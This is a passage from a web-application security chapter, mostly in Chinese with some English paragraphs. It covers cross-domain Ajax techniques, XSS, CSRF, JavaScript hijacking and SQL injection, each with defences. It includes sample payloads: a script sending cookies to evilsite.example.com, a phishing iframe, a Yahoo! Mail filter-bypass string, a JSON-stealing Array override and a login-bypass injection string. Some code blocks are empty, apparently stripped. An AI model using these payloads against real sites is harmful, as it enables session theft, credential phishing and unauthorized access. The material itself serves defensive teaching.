entAjax.CrossDomainWidget.prototype.send = function(sMessage) {

    this.listen();

    this.lastMessage = sMessage;

    this.iframe.location.href = this.url + "#" + sMessage;

}
```

在这里，我们确保在设置新消息之前立即调用 `listen()` 方法，以防自上次执行 `listen()` 方法以来消息已更改。

来自其他域的网页也必须使用与 `CrossDomainWidget` 类类似的类，通过检查和设置其自己的 `window.location.href` 属性来简单地监听和发送消息。

出现的一个复杂情况是网页 URL 长度不能超过 256 个字符，因此较大的消息可能需要拆分为几个较小的消息。在这种情况下，最好有一个商定的协议，以便监听页面可以收到通知，表明消息已被分块，并进入一个特殊的监听状态，以更快的速度检查 URL。无论如何，这是一种在不同域提供的网页之间传输数据的可行方法。

### Flash 跨域 XML

从编程简便性的角度来看，一个稍好的替代方案可能是使用 Flash 影片。如果服务器上存在一个特殊的 `crossdomain.xml` 文件，指定 Flash 影片可能连接到的有效域，则 Flash 影片可以在域之间传输数据。例如，YouTube 在其服务器上有一个 `crossdomain.xml` 文件，其内容大致如下：

```xml
<?xml version="1.0"?>

<!-- http://www.youtube.com/crossdomain.xml -->

<cross-domain-policy>

    <allow-access-from domain="*.youtube.com" />

    <allow-access-from domain="*.google.com" />

</cross-domain-policy>
```


这表示的是，试图访问 `www.youtube.com` 域上 Web 服务的 Flash 影片必须来自 `youtube.com` 或 `google.com` 的子域。这里存在一个小问题，即 HTTP 标头和 cookie 也会随请求一起发送到服务器。因此，如果你创建一个使用 Flash 影片跨域访问用户 Flickr 数据的网站，并且用户在访问你的网站时已登录 Flickr，则 Flash 影片可以直接向 Flickr 发送一个请求，该请求包含所有适当的身份验证信息，从而让 Flickr 认为是用户本人在访问 Flickr 站点，而不是某个中间程序（即 Flash 影片）在访问服务器。此时，中间程序可以对 Flickr 数据为所欲为。Flickr 意识到了这一点，并最终将其 `crossdomain.xml` 文件更改为仅允许访问 `api.flickr.com` 域。它们要求在每个请求中传递身份验证令牌。

### 脚本注入

跨域访问数据的最后一种方法是脚本注入。与片段标识符解决方案不同，脚本注入在 DOM 中创建一个 `<script>` 元素，并将其 `src` 属性设置为生成并返回 JavaScript 的服务器脚本的 URL。脚本注入与片段标识符的不同之处在于，可以从服务器传递到客户端的数据量不受网页 URL 长度的限制。从宿主应用程序传递到服务器的数据仍然存在该限制，因为它只能通过 `GET` 请求实现。

脚本注入有几种不同的方法。使用脚本注入时需要解决的问题是，由于远程 JavaScript 是在运行时动态加载的，而不是像 Google Maps 示例那样在加载网页时加载一次，因此宿主应用程序需要知道远程 JavaScript 何时已加载并可供访问。解决此问题的唯一方法是让宿主应用程序了解从服务器返回的数据的格式，或者让服务器了解客户端 JavaScript 的架构。如果返回的数据采用特定格式，则宿主应用程序可以持续轮询某个预定义的 JavaScript 变量名，直到其有效为止。这正是可以使用 Delicious JSON API 所做的事情。当请求以下 URL 时，Delicious 返回指定用户的帖子列表：

```text
http://del.icio.us/feeds/json/username
```

结果以 JSON 格式呈现，并且该 JSON 对象被分配给一个名为 `Delicious.posts` 的变量。要确定数据何时已加载，我们可以像这样轮询 `Delicious.posts` 变量的存在性：

```javascript
function check() {
    if (typeof Delicious.posts == "undefined") {
        window.setTimeout(check, 100);
    } else {
        // 数据准备就绪后进行处理
        dataReady(Delicious.posts);
    }
}

check();
```

此解决方案完全依赖于宿主应用程序来确定数据何时已加载。

另一种方法是让宿主应用程序在向服务器发出的请求中包含一个回调函数的名称，该名称是某个函数在

## 安全性

任何关于 Web 应用开发的书籍，若缺少关于安全性的章节，都不算完整，关于 AJAX Web 应用的书籍也不例外。随着我们在 Web 应用中加入越来越多的 AJAX 风格功能，我们倾向于将更多的控制权和逻辑交给客户端。从安全角度来看，问题是客户端不能被信任。当我们在客户端加入更多逻辑时，我们就向公众泄露了更多的秘密，因为我们使用的 JavaScript、HTML、CSS、Flash 甚至 Java Applet 对应用的所有用户都是可见的。JavaScript、HTML 和 CSS 都易于分析从而了解其工作原理，而 Java Applet 和 Flash 程序也都可以被反编译和分析，只需稍多一点工作量即可。因此，在考虑 Web 应用的安全性时，最好假设发送给客户端的任何内容都不是秘密，客户端发送的任何内容都不能被信任。

在 Web 应用中，攻击主要有两大类：针对服务器的攻击和针对客户端的攻击。针对服务器的攻击是最明显的类型，因为当我们思考系统中可能发生的安全问题时，通常会想到攻击者入侵服务器并窃取机密数据，例如信用卡号。然而，针对客户端的攻击也可能同样具有破坏性，因此我们将讨论这两种类型的攻击。无论攻击发生在客户端还是服务器上，当我们向应用添加 AJAX 功能时，影响标准 Web 应用的所有安全问题仍然存在；唯一的区别是，随着我们使用 AJAX 向客户端应用添加更多功能，我们会增加易受攻击的组件数量。

## AJAX 的安全问题

对 AJAX 安全的部分担忧源于以下事实：攻击者有可能修改其浏览器中网页上运行的任何 JavaScript，伪造从网页到服务器的 AJAX 请求，并普遍拦截其浏览器与服务器之间的任何通信。在大多数情况下，这被称为增加了“攻击面”，因为 AJAX 的细粒度请求特性以及业务逻辑在客户端的扩散，为攻击者提供了更多关于服务器工作流程和代码的洞察。

与传统 Web 应用一样，如果你根据 AJAX 请求中的数据构建 SQL 语句，你将面临 SQL 注入威胁。任何被或多或少直接从浏览器调用的服务器端 API 方法都应进行防护，以应对诸如 SQL 注入、缓冲区溢出等恶意请求。需要记住的是，不要信任你构建的网页。在许多 AJAX 应用中，这一点很难被接受。尽管客户端数据验证等功能很有吸引力，因为它使应用响应更快，但它同样也是危险的。客户端数据验证使许多开发者产生虚假的安全感，导致他们忽视服务器端数据验证，转而追求炫目的 AJAX 技巧。在这种情况下，攻击者可以轻松绕过用户界面，向服务器提交自己的畸形请求，而这些请求不会经过任何数据验证。

AJAX 确实为 Web 应用引入了一种新的安全威胁，那就是“JavaScript 劫持”的可能性，但重要的是要记住，AJAX 应用的主要问题是更大的潜在攻击面，以及这一攻击面增加了应用的某个入口点出现传统安全漏洞（例如 SQL 注入攻击的可能性）的几率。非 AJAX 应用通常每个页面只有一个或两个 Web 服务接口，从而减少了需要保护的接口数量。例如，过去所有的服务器 API 调用都是在页面生成时在内部完成的。有了 AJAX，人们将这些方法暴露给“外部世界”，以便可以通过 XHR 调用访问它们。在 AJAX 应用中，尤为重要的一点是，必须假设有人会出于恶意目的调用任何以及所有公开暴露的 Web 服务。

## 跨域漏洞

有两个主要的跨域漏洞需要时刻牢记在每个 Web 开发者的脑海中。它们就是跨站脚本和跨站请求伪造。

### 跨站脚本

跨站脚本（XSS）可能是最常见的客户端攻击类型。XSS 既容易理解，也易于防范，但由于它非常简单，因此除非你始终保持警惕，否则它也容易趁虚而入。XSS 依赖于攻击者控制由其他人查看的页面上显示的内容。当用户浏览一个网站时，她的 Web 浏览器会将该页面的全部内容视为来自同一个来源。页面上的所有 HTML、脚本和 CSS 都被假定来自一个来源——用户正在访问的该站点的服务器。正如在代理 Web 服务请求一节中所讨论的，浏览器包含了防止来自其他站点的数据被提供给用户正在浏览的站点上的脚本的安全措施，但如果攻击者能够将脚本放入某站点的页面中，该脚本就可以在该站点的安全上下文中运行。而任何毫无防备的用户访问该页面时，都会在该站点的安全上下文中运行该脚本。

### 跨站攻击特征

这听起来似乎不常成为问题，因为你多久会允许不受信任的用户修改 Web 应用页面的内容呢？Web 应用常常会在页面上显示由系统的其他用户创建的数据。最常见的例子就是博客。在大多数博客中，访客可以对作者发布的文章进行评论。当其他用户随后访问该网页时，这些评论将作为页面的一部分显示出来。现在，假设一个攻击者在评论中写入了类似如下的内容：

```html
<script><!--alert("Gotcha");--></script>
```

如果博客应用对评论不进行任何过滤，这段 HTML 片段就会被直接放入页面的评论中，如果有用户访问该站点，该脚本就会在其浏览器中执行。在客户端弹出一个警告框顶多只是一种烦扰，但在网页的上下文中运行该脚本才是真正危险的。假设攻击者写入的是以下代码：

```html
<script><!--
e = document.createElement("IMG");
e.style.width = 0;
e.style.height = 0;
e.src =
"http://evilsite.example.com/cookies.jsp?c="+document.cookie;
document.body.appendChild(e);
--></script>
```

该脚本的作用是向页面添加一个新的图片标签，这会触发浏览器请求 URL `http://evilsite.example.com/cookies.jsp`，并发送浏览器为博客站点保存的 cookie 的值。假设攻击者控制着 `http://evilsite`，他可以让 `cookies.jsp` 脚本接收查询字符串中发送的 cookie 并将其保存到数据库中。现在假设博客管理员已登录，并访问了该页面。该脚本将在站点的上下文中执行，管理员的 cookie（包含其身份验证信息）将被发送给攻击者。假设像许多站点一样，博客使用 cookie 中的信息来验证用户身份，攻击者就可以拿到管理员的有效 cookie，并在自己的请求中发送该 cookie，从而以博客管理员的身份登录。

这是一个巨大的问题，在表单和博客中尤其严重，因为站点的用户贡献了大量内容。在过去的线上电子邮件应用，例如 Hotmail 和 Yahoo! Mail，也都曾因 XSS 攻击而出现漏洞，因为它们的设计目的是显示来自其他人的消息。那么，可以做些什么来缓解这些问题呢？解决方案是在向查看者显示所有不受信任的数据之前对其进行过滤。不幸的是，这说起来容易做起来难。

## 过滤用户输入

最简单的过滤器是：如果其他用户输入了 `<script>` 标签，就禁止显示它。很少有场合会希望用户向页面中添加脚本标签，因此将其完全过滤掉是一个简单的解决方案。不幸的是，即使不使用显式的 `<script>` 标签，也有许多方法可以向页面中注入脚本。向页面添加脚本的一种常见方式是使用 JavaScript 事件。我们可以轻松地将以下任意标签或类似内容放入博客文章中，以达到相同的效果：

```html
<p onmouseover="alert('evilness has occurred')">Here is my comment.</p>

<a href="javascript:alert('evilness has occurred')">Click Here.</a>
```

第一个标签会创建一段文本，当用户将鼠标移到其上方时，就会执行攻击者想要的任何操作，例如将 cookie 发送到攻击者控制的网站。第二个标签会创建一个链接，该链接不会打开 URL，而是运行 `href` 属性中的代码。问题更加严重，因为还存在不需要运行任何代码就能通过 XSS 攻击用户的方法。一种常见的攻击方式是在页面中包含模仿站点登录页面的 HTML，但将用户信息发送到攻击者控制的另一个站点。例如，我们可以为 Hotmail 或 Yahoo! Mail 等 Web 邮件应用创建一个虚假的登录页面，使其看起来与真实登录页面完全相同，但显示类似“你的会话已超时，请登录后继续”的消息。如果这个登录页面改为将数据 POST 到我们控制的网站，我们就可以在电子邮件中包含以下 HTML，并将其呈现给查看邮件的用户。然后，我们就可以诱骗他们向我们发送凭据：

```html
<iframe width="100%" height="100%"
style="position: absolute; left: 0px; top: 0px; border: 0px;"
src="http://evilsite/fake_login.html"/>
```


We can do a similar thing using the `<frameset>` tag. This is often referred to as hijacking the browser and is commonly used in Phishing attacks, where an attacker creates fake login pages for sites such as Banks and other commonly used commercial sites and then attempt to trick users into entering their real credentials into the fake site.

Often, we would like our users to put some HTML formatting into their blog comments or Forums posts, and eliminating all HTML tags is not always feasible. If we can simply eliminate all HTML tags, this problem is easy to solve by HTML Encoding the data before it is displayed to the user. HTML Encoding is the process of converting the characters that have special meaning in an HTML document, namely `<`, `>`, `'`, and `"`, into encoded representations so that they will display to the user instead of processed as HTML tag declarations or Javascript commands. The standard set of characters that should always be encoded is shown in Table 7.1.

| Character | Encoded Equivalent |
| --- | --- |
| `<` | `&#60;` or `&lt;` |
| `>` | `&#62;` or `&gt;` |
| `(` | `&#40;` |
| `)` | `&#41;` |
| `#` | `&#35;` |
| `&` | `&#38;` or `&amp;` |
| `"` | `&#34;` or `&quot;` |
| `'` | `&#39;` |
| `;` | `&#59;` |
| `+` | `&#43;` |

Encoding all these characters can prevent most XSS attacks, but it is still important that you keep track of any data that is placed on a page that can come from some source such as a database, cookies, headers, or any location where it was not explicitly hard-coded by the author of the page. Stripping tags such as `<script>` or removing all event-related attributes from the data is not as simple as it seems, and attackers can have a lot of fun trying to bypass these kinds of filters. This is called Negative filtering, and it relies on knowing all the bad things that can be done, trying to recognize these bad elements on a page, and removing them. Negative filtering can never offer complete protection because attackers always find new ways to do bad things.

For example, as recently as April 2006, Yahoo! Mail suffered from an XSS attack.⁶ Yahoo! Mail protects against XSS attacks by filtering out potentially dangerous parts of an email, such as the string `"javascript"` in `href` attributes, all the `"on*"` attributes, and `frameset` and `iframe` tags. If its filters were perfect, there would be no way for an attacker to execute code in the security context of the Yahoo! Mail site by embedding it in an email that is opened by a user of that site. Unfortunately, Yahoo!'s filter was not perfect, and a malicious email could be sent containing the following data, and it would bypass its filters.

```
...Message text ...<BR><BR><a target="_blank"

href="www.blabla23.com>"style="background:url\(java/**/script:d

ocument.write('<frameset

cols=100% rows=100% border=0

frameboarder=0framespacing=0><frame frameborder=0

src=http://w00tynetwork.com/x/></frameset>'))"></a><p>
```

Because Yahoo! does not publicly disclose how its filters work, this might not been the original text of the email, but this is what was included in the email after its filtering was done. There are typos in this fragment, but they were included in the original malicious email, so we have preserved them here. The trick to this is that `/**/` section denotes a comment in CSS and Javascript. Because comments are ignored in the processing, when we set the style to be a CSS fragment with a URL containing `java/**/script`, the browser happily interprets that as a Javascript command and actually executes the code that follows. The code then hijacked the browser and displayed a false login page for Yahoo! Mail, and many people were tricked into providing their credentials, which were collected by the attackers. This example highlights the reason why trying to write Negative filters to protect from XSS is a difficult thing to do.

### 正面过滤

Instead of Negative filtering, Positive filtering should be used wherever possible. Instead of trying to declare what cannot be done, Positive filtering asserts what can be done and allows only that, blocking everything else. If we state that the only attributes that can be included in an `` tag are `"src"` and `"width"`, `"height"`, and `"border"`, we do not have to worry about some attacker figuring out how to run code in a `"style"` attribute. We can then state that the value of the `"src"` attribute must match the following regular expression (in a case-insensitive manner):

```
/^http[s]?:\/\/[^\s]*/
```

Now, we do not have to worry that most browsers, especially Internet Explorer, can happily run the Javascript statements in all the following tags:

```


```


这就是为什么创建一个负过滤器来阻止每一种可能的技术通常是不可行的，而我们的正过滤器可以阻止所有这些内容。我们的正过滤器可能会意外阻止合法内容，但大多数时候，这总比意外允许恶意内容要好。

## 永远不要信任用户

最重要的一点是永远记住：用户输入永远不可信。不要在未充分考虑后果的情况下，将用户提供的数据直接插入网页。

将用户发送的任何内容直接塞入查询字符串显然很危险，但这类漏洞仍然会出现在许多应用程序中。通常，开发者会注意不将文本字段中输入的数据放入查询中，却会信任表单中选择框或复选框的内容。普通用户无法修改发送到服务器的内容，因此开发者可能会认为这些值是可信的。

然而，恶意用户可以创建自己的表单，向页面发送 `POST` 请求，并将值设置为任意内容。攻击者还可以使用 Telnet 直接连接到服务器，手动输入 `POST` 请求。归根结底，任何来自客户端的数据，无论是查询字符串、`POST` 数据、Cookie 还是请求头，都不能被信任。

## 跨站请求伪造

虽然 XSS 通常利用的是用户对网页的信任，但跨站请求伪造（CSRF）利用的是网站对用户的信任。之所以能够进行 CSRF，是因为脚本和图像等看似静态资源的 HTTP 请求，可以发送到与提供网页的域不同的域，如图 7.2 所示。

这里的关键在于，对其他域资源的请求会包含与该域相关的所有请求头，包括可能包含身份验证所需特殊信息的 Cookie。如果企业防火墙内部的某个用户已经登录并有权访问内部财务系统，而该用户访问了一个公共网页，该网页包含一个 `` 元素，其 `src` 属性指向内网中用于删除客户的网页，那么这种行为就可能在企业防火墙后被利用。

### 预防

避免 CSRF 攻击的一种简单方法是要求重要操作必须使用 HTTP `POST` 请求来执行。这会使创建 CSRF 攻击变得更加困难，因为脚本处理的信息无法附加到 URL 末尾，也无法作为 `` 的 `src` 属性来请求。

然而，避免 CSRF 攻击的最佳方法是使用动态生成的令牌，该令牌需要随表单提交，并且存在于用户的会话信息中。每当向服务器发出重要请求时，初始表单可以在隐藏字段中填充一个动态值，同时该值也会被添加到用户的会话信息中。

然后，当服务器端代码接收到来自客户端的请求时，它可以检查 `POST` 提交的隐藏变量是否与根据用户会话信息所预期的值相同。尽管这意味着在构建应用程序时需要做更多的工作，但它几乎可以消除任何 CSRF 攻击的可能性。

## JavaScript 劫持

最后，至少存在一种安全漏洞，虽然基于 CSRF 的理念，但会因 AJAX 技术而变得更加严重。JavaScript 劫持背后的思想是，可以从恶意网站发起 CSRF 攻击，并用于从公共 Web 应用程序返回私有数据。

如果像 Google Mail 这样的 Web 应用程序通过基于 REST 的 URL（例如 `http://gmail.com/email/recent`）以 JSON 数据的形式提供您最近的电子邮件列表，那么该 URL 可能会在 CSRF 攻击中被使用，方法是动态注入一个 `<script>` 标签，将其 `src` 属性设置为该 URL。

如果您已经登录到 GMail 服务，那么对该 URL 的请求的 HTTP 头部将像任何 CSRF 攻击一样，在 Cookie 中包含您的 GMail 认证信息。在这种情况下，GMail 服务器会认为您实际上是在自己请求这些信息，而不会知道这些信息是由恶意网站在未经您知情的情况下请求的。

这种攻击适用于任何跨域检索的数据类型，在大多数情况下是 JSON 数据，但当然也可以是任何类型的数据，包括 XML，只要它以 JavaScript 代码的形式返回给客户端。然而，这种情况只适用于某些特定场景，并且很大程度上取决于返回给客户端的 JavaScript 类型。

返回给客户端的最简单的 JavaScript 类型是 JavaScript 对象字面量或 JSON 对象。在这种情况下（且仅在 Firefox 中有效），攻击者可以覆盖原生 JavaScript 对象或数组构造函数，同时创建一个 JavaScript setter。

这样，当使用 `eval()` 函数实例化 JSON 对象时，执行的是修改后的对象或数组构造函数方法，而不是预期的原生构造函数，然后使用自定义的 setter（这里命名为 `setData()`）来拦截数据。以下是一个用于窃取从 JavaScript 数组实例化的数据的简单 JavaScript 示例：

```javascript
<script type='text/javascript'>

function Array() {

    var i = 0;

    var obj = this;

    var setData = function(x) {

        obj[i++] setter = setData;

        stealData(x);

    };

    this[i++] setter = setData;

}
```

```javascript
function stealData(data){

    alert("I got your data " + data);

}

</script>
```

这可以与跨域脚本请求结合使用，如下所示：

```html
<script type='text/javascript'
src='http://www.example.com/jsondata'></script>
```

源 URL `http://www.example.com/jsondata` 返回如下 JSON 对象：

```json
[1,2,3]
```

这种攻击的结果是，网站用户会看到三个警告框出现，分别显示数组中的三个不同值。您可以轻松修改 `stealData()` 函数，将数据发送回提供网页的 Web 服务器。

尽管这种攻击版本需要劫持者做一些工作，但如果您的应用程序使用 JSONP 将数据返回给客户端，那就变得很容易，因为攻击者只需请求数据并指定数据返回时要调用的 JavaScript 函数。

此时，当数据返回给客户端并执行回调函数时，攻击者就可以窃取私有数据，随心所欲地使用它。JSONP 使 JavaScript 劫持变得容易。

### 预防

防御这种攻击的最佳方法是防止返回给客户端的数据可作为 JavaScript 执行，除非对从服务器返回的字符字符串进行某些修改。例如，可以将数据放在 JavaScript 注释内部，这样 JavaScript 就永远不会被执行。

使用这种方法意味着，当使用 `<script>` 标签注入请求时，数据无法被使用；然而，如果使用 XHR 请求数据，则只能从请求网页的同一域访问数据，从而阻止跨域攻击。

当数据在客户端可用时，应用程序可以在使用 `eval()` 将其作为 JavaScript 执行之前更改数据。来自服务器的数据可能如下所示：

```javascript
/*

{"emails":[

  {"from":"Dave","to":"Andre","subject":"Enterprise Ajax"},

  {"from":"Andre","to":"Dave","subject":"RE:Enterprise Ajax"}

]}

*/
```

如果通过 `<script>` 标签注入请求此数据，由于它被包含在 JavaScript 注释中，不会执行任何 JavaScript。

然而，我们可以按照下面的方式更新 JavaScript `HttpRequest` 类，这样当我们告诉它请求 JSON 数据时，它会期望服务器返回包含在注释中的数据。在这种情况下，它会在尝试使用 `eval()` 处理数据之前移除注释。

```javascript
entAjax.HttpRequest.prototype.handleResponse = function() {

  if (this.responseType == "json") {

    var data = this.httpObj.responseText;

    if (data.substring(0,2) == "/*")

      data = data.substring(2, data.length-2);

    return eval("("+data+")");

  }

}
```

除了将 JSON 数据包装在注释中，您还可以在数据开头放置一个 `while(1)` 语句，或者使用 `throw` 语句。无论哪种方式，数据都不会被解析。

还可以检查 `HTTP-REFERER` 请求头以确保请求来源有效，尽管这通常被认为是一种不安全的做法。同样，您可以使基于 JSON 的数据只能通过 HTTP `POST` 请求访问，这意味着 `<script>` 标签注入的 `GET` 请求将不起作用。然而，Safari 中的 XHR 对象在处理 `POST` 请求时存在问题。

说了这么多，使用本章前面描述的令牌方法来防止 CSRF 攻击是**高度推荐**的。

# 第 7 章 Web 服务与安全

## SQL 注入

SQL 注入与 XSS 类似，都是基于恶意构造的用户数据；只是 SQL 注入影响的是服务器，而不是客户端。几乎所有 Web 应用程序都基于用户指定的信息执行数据库查询，但将用户信息包含到查询中有正确的方法和错误的方法。

根据用户数据被包含在查询中的方式，攻击者可以精心构造他发送的数据，使其能够劫持查询，导致查询执行原本不打算执行的操作。这被称为 SQL 注入，因为攻击者将恶意数据注入到 SQL 查询中，从而允许他执行恶意行为。

我们用一个示例来说明 SQL 注入的工作原理。大多数 SQL 注入问题发生在 PHP 应用程序中，因为它最常用于没有对象关系映射或数据层的环境中，而像 Java 的 Hibernate 或 .NET 的 NHibernate 这样的框架可以固有地防止 SQL 注入。

假设我们有一个用户登录页面，用户通过 `POST` 提交用户名和密码到表单，然后 PHP 代码尝试在数据库中查找该用户。数据库包含一个名为 `"users"` 的表，有两列：一列用于用户名，名为 `"user"`；另一列用于关联的密码，名为 `"pass"`。PHP 代码可能如下所示：

```php
<?

$u = $_POST['username'];

$p = $_POST['password'];

$q = 'SELECT * FROM users WHERE user="'.$u.'" AND pass="'.$p.'"';

$link = mysql_connect('mysql_host', 'mysql_user', 'mysql_password')

    OR die(mysql_error());

$result=mysql_query($query)

    OR die(mysql_error());

if (mysql_num_rows($result) > 0) {

    // User is valid.

} else {

    // Invalid credentials.

}

?>
```

这个脚本存在 SQL 注入漏洞，因为我们只是将用户提供的数据直接插入查询字符串，并假设用户提供了有效的用户名和密码。但是，如果一个恶意用户提供了以下字符串作为用户名（包括引号），而密码字段留空，情况会怎样：

```text
" OR 1 OR user="
```

现在，当我们创建查询字符串时，会看到查询变成了：

```sql
SELECT * FROM users WHERE user="" OR 1 OR user="" AND pass=""
```

由于查询中的 `"OR 1"` 部分（其结果始终为 `TRUE`），此查询会从用户表中选择每一行。因为返回的行数大于 0，系统会将此用户视为有效用户。

通过允许用户在用户名中输入引号，我们允许他们关闭我们期望包含用户名的字符串，将自己的命令添加到 SQL 查询中，然后在末尾添加一些额外数据，以便最终查询是有效的。

请注意，如果用户没有包含最后的 `"user=""`，完整的查询字符串将缺少一组引号并导致查询失败。利用 SQL 注入漏洞的诀窍通常在于找到一种方法添加我们自己的命令，同时确保最终查询仍然有效。

显然，我们必须在查询中包含一些客户端数据，那么我们如何安全地做到这一点呢？根据你所使用的应用框架，有多种答案。对于 PHP 和 MySQL，有 `mysql_real_escape_string` 函数，它可以转义任何可能被用来劫持查询的字符，例如单引号、双引号和换行符。

如果我们将 PHP 脚本的前两行替换为以下内容，就能免受 SQL 注入攻击：

```php
$u = mysql_real_escape_string($_POST['username']);

$p = mysql_real_escape_string($_POST['password']);
```

### 预处理语句

某些数据库还支持预处理语句，这是执行数据库查询最安全的方式，应在可用时尽量使用。使用预处理语句时，查询包含变量数据应放置的占位符。例如，我们之前的查询可以表述如下：

```sql
SELECT * FROM users WHERE user=? AND pass=?
```

当执行查询时，数据库驱动程序知道它将接收两个参数，并且知道第一个参数将与 `"user"` 字段匹配，第二个参数将与 `"pass"` 字段匹配。然后，数据库驱动程序会处理引号和转义，以确保只发生预期的行为。

对于常用查询，将查询存储在数据库中还可以提高性能，因为某些 DBMS 会缓存查询计划，并且执行查询所需传输给数据库的信息更少。

在 Java 中，JDBC 通过 `PreparedStatement` 对象为我们提供了使用预处理语句的能力。例如，在 Java 中，我们之前的查询将创建如下：

```java
PreparedStatement query = con.prepareStatement(

    "SELECT * FROM users WHERE user=? AND pass=?");
```

获得预处理语句后，我们可以将参数绑定到变量，并执行如下：

```java
query.setString(1, "joesmith");

query.setString(2, "secretpassword");

ResultSet rs = ps.executeQuery();
```

### 存储过程

存储过程的工作方式类似于预处理语句，但语句实际上存储在数据库中，然后由任何想要执行这些语句的代码通过标识符进行引用。

每个 DBMS 创建存储过程的语法略有不同。在 Oracle 中，它们使用 PL/SQL 语法定义。例如，我们可以使用以下命令在 Oracle 中将我们的查询创建为存储过程：

```sql
create procedure check_login(username VARCHAR2, password VARCHAR2,

                                matches OUT NUMBER)
```


```sql
begin

    SELECT COUNT(*) INTO matches FROM users WHERE user = username

        AND pass = password;

end check_login;
```

请注意，我们无法为存储过程返回值，而是将输出绑定到一个名为`matches`的参数，该参数传递给存储过程。要从Java调用此存储过程，我们通过名称引用它，然后将参数绑定到变量，如下所示：

```java
Connection con = connectionPool.getConnection();

CallableStatement proc =
    con.prepareCall("{ call check_login(?, ?, ?) }");

int matches = 0;

proc.setString(1, "joesmith");
proc.setString(2, "secretpassword");
proc.setInt(3, matches);

proc.execute();

if (matches > 0) {
    // 登录成功。
} else {
    // 登录失败。
}
```

我们看到，它们也可以通过防止SQL注入来提高应用程序的安全性。MS SQL、PostgreSQL和Oracle都提供了对存储过程的出色支持，最新版本的MySQL也是如此。

这大部分都是相当底层的内容。幸运的是，后端持久化技术通常提供一定程度的SQL注入防护。例如，Hibernate和NHibernate持久化框架能很好地防止SQL注入攻击。

## XPath注入

由于XML是大多数Web应用程序开发者使用的重要且广泛的技术，XPath注入[^7]问题也是需要考虑的因素。与SQL注入类似，XPath注入是通过从用户获取输入并直接将其用于XPath语句来实现的。这可能是危险的，因为通常XML级别没有像SQL数据库那样的安全性，在SQL数据库中，用户可能被限制访问表或列级别。如果对XML文档执行XPath查询，我们必须假设文档或XML数据库中的所有数据都可能返回给最终用户。实际上，使用单个返回标量值的XPath选择，通过XPath注入就可以映射整个XML文档！

## 数据加密与隐私

Web应用程序，无论是AJAX还是其他形式，经常处理敏感信息，发送这些信息可能是危险的。HTTP流量默认是未加密的，因此通过HTTP传递的任何内容都可以被窥探。许多Web应用程序由共享环境（如大学或办公室）中的用户访问，在这些环境中，其他用户监听流量并窃听对话并不困难。因此，当我们的应用程序处理保密性重要的信息时，数据应在从客户端发送到服务器之前或从服务器发送到客户端之前进行加密。加密数据确实会增加应用程序的开销，因此需要加密的信息越少越好。

与任何Web应用程序一样，SSL是加密AJAX数据通信的首选方法。SSL提供的不仅仅是数据加密；它支持通信隐私和身份验证。身份验证意味着可以确保服务器的身份，正如我们刚才讨论的。通信隐私意味着发送到和来自服务器的所有数据都是其他人无法读取的形式，并且不能被任何人伪造。当Web浏览器和Web服务器使用SSL协商安全通道时，在该通道上传输的所有内容对其他人都是完全安全的。攻击者可以访问从开始到结束的整个对话内容，但无法理解其中说的任何内容。当然，没有技术是万无一失的，也许有一天会有办法破解SSL加密对话，但目前，这主要存在于科幻小说和阴谋论者的领域。实际上，SSL受到大多数在互联网上开展业务的组织的信任。对于大量使用SSL的Web应用程序，有商业化的SSL加速器硬件，能够将SSL计算卸载到专用硬件上。这些设备能显著提升Web应用的性能，推荐任何在繁忙Web应用中使用SSL的组织采用。

SSL并非在Web应用中加密数据的唯一方式，但通常是最佳且最便捷的方法。Web应用开发者常会自行创建加密方案来传输机密数据，但问题在于加密很容易出错。SSL被广泛使用，是一种标准、安全的数据加密方法。尽管如此，有时SSL可能显得过于隆重，我们或许希望在无需购买SSL证书、在服务器上设置证书、建立安全通道带来性能损耗的情况下传输机密信息。有时，机密信息只需保持足够的私密性即可。

最常见的需要实现自主基础加密算法的场景是，我们希望从客户端向服务器发送密码以进行身份验证。我们绝不希望明文传输密码。人们通常会在多个不同网站重复使用相同密码，因此泄露密码可能带来的后果比攻击者以其身份访问你的应用更为严重。密码的妙处在于，其具体内容并不重要，重要的是声称是用户的人确实知道正确的密码是什么。因此，大多数发送密码的加密方案依赖于用户发送某种证明他知道密码的东西，而不是直接发送密码。这种证明通常是密码的哈希值。他发送的哈希值是通过单向函数生成的，这意味着如果我们知道密码，就可以创建哈希值，但如果我们知道哈希值，却无法反推出密码。因此，如果用户将密码的哈希值发送给服务器，而服务器知道密码的正确哈希值应该是什么，我们就能对用户进行身份验证。如果有人窃听我们的通信，他只能获取哈希值，而不是实际密码。

不幸的是，这使我们容易受到所谓的重放攻击。即使攻击者不知道密码是什么，他只需将那个哈希值发送给服务器，服务器就会认为他是合法用户。为防止重放攻击，我们强制客户端对密码和服务器提供的一些随机数据创建哈希值。因此，服务器生成一些随机数据，称为盐值，并将其发送给客户端。然后客户端取密码和这个随机数据生成一个哈希值并发送给服务器。服务器也对密码和随机数据创建一个哈希值，然后验证客户端发送的内容是否匹配。现在，即使攻击者能够窃听通信并获取哈希值，如果攻击者尝试进行身份验证，服务器会生成一个新的盐值，因此上一次通信的哈希值将不再有效。

这类似于HTTP摘要认证的工作原理。HTTP基本认证在每次请求时都以明文方式发送所有内容。因此，除非在SSL上使用，否则绝不应使用HTTP基本认证。如果我们不想使用SSL，但希望使用HTTP认证，则应使用HTTP摘要认证，幸运的是所有现代浏览器和现代Web服务器现在都支持它。对于仅限Windows的环境，Internet Explorer和IIS支持NTLM认证，这非常安全，但很少有其他浏览器和服务器提供支持。

## 防火墙

正确配置防火墙的最基本原则是最小权限原则。最小权限原则类似于跨站脚本章节中讨论的正向过滤策略，我们尝试只允许尽可能少的流量通过，而拒绝其他所有流量。我们不是确定要阻止什么并配置防火墙阻止它、同时允许其他所有流量通过，而是决定要允许什么并阻止其他所有流量。

网络防火墙并非唯一使用的防火墙类型。还有应用程序防火墙，它们常用于保护Web应用。网络防火墙处理标准网络流量，而应用程序防火墙关注特定类型的网络流量，例如HTTP。应用程序防火墙实际上理解HTTP，因此它们可以实际分析HTTP会话中发生的事情并阻止某些事情发生。应用程序防火墙可用于检查查询字符串或POST请求中的奇怪参数，通常能阻止XSS和SQL注入等攻击到达Web服务器。推荐需要比网络防火墙提供更多安全性的网站考虑应用程序防火墙，因为市场上有一些优秀的产品。处理信用卡和银行信息等敏感信息的组织绝对应考虑建立多层次的安全系统。

## 总结

阅读本章后，你应该对发送到服务器和从服务器发送的数据的各种数据格式选项有了很好的了解。具体来说，我们可以使用Web服务、XML-RPC和REST方法。这些技术的使用高度依赖于AJAX应用部署的环境。此外，我们现在可以选择几种不同的跨域AJAX方法：使用URL片段标识符、Flash影片或注入JavaScript。

